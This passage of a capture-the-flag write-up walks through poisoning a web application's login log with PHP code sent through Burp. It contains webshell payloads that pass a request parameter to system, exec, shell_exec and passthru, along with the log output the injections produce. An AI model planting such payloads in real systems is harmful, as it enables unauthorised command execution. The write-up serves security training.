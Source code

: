 I’ve got four different repeater tabs with different requests I’ll send over and over. POST is to submit a login to poison the log. The other three allow me to interface with my poisoned log to show different directories or files, or reset the log.

I’ll use the POST tab to send `1: <?php echo "0xdf"; ?>` for username and `2: <?php echo "was here"; ?>` for password. I like to enter some plain text next to the php to help me orient in the log. Sometimes the php parts may display as nothing, and it’s nice to quickly identify where it would have been.

But in this case, when I view the log for this session, the php does run:

```

[02 March 2019, 11:46:03 AM] 10.10.14.14 - Username: 1: 0xdf, Password: 2: was here

```

#### PHP Can’t Execute

The obvious next step here is to put in a shell. I’ll clear the log with `init`, and then I’ll POST with username `1: <?php system(whoami); ?>` (remembering to url encode it with ctrl-u in burp). On viewing the log, I’ll see my new entry, but with no `whoami` output:

```

[02 March 2019, 11:56:23 AM] 10.10.14.14 - Username: 1: , Password: 2: was here

```

I have a file I wrote doing OSCP to test for different types of execution in php. It tried to run a command over php using 4 different calls. In each case, it tries to run `whoami`, a command that will work on either Linux or Windows, and it gives me the option to submit a command as well:

```

<?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
<?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
<?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
<?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>

```

So I’ll set my username to that, url encode it, and submit. Nothing executes:

```

[02 March 2019, 11:59:55 AM] 10.10.14.14 - Username: system: <br/>exec: <br/>shell_exec: <br/>passthru: , Password: 2: was here

```

Remembering that ASP.NET is also in the response headers, I tried an aspx webshell as well, but it doesn’t work. I’ll show why in [Beyond Root](#aspx-webshell).

#### Dir Walk / File Read / Write File

I know that php can list and read files, as those are done in the `list` and `show` actions. php is also writing files when it creates these logs file. So I will use these functions to explore the box.
